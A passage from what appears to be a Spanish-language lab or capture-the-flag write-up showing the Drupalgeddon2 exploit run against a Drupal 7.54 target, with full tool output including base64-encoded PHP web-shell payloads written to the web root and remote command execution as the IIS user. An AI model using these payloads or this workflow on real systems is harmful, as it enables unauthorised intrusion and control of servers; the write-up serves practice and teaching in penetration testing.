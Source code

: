 solucionamos esto instalando la siguiente gema

```bash
Drupalgeddon2 # ❯ sudo gem install highline
Fetching highline-2.0.3.gem
Successfully installed highline-2.0.3
Parsing documentation for highline-2.0.3
Installing ri documentation for highline-2.0.3
Done installing documentation for highline after 4 seconds
1 gem installed
```

utilizamos dicho exploit y podemos ejecutar comandos en la maquina victima

```bash
Drupalgeddon2 # ❯ ruby drupalgeddon2.rb http://10.129.143.4
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.129.143.4/
--------------------------------------------------------------------------------
[+] Found  : http://10.129.143.4/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo CBJTHLDQ
[+] Result : CBJTHLDQ
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.129.143.4/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.129.143.4/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.129.143.4/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> hostname
```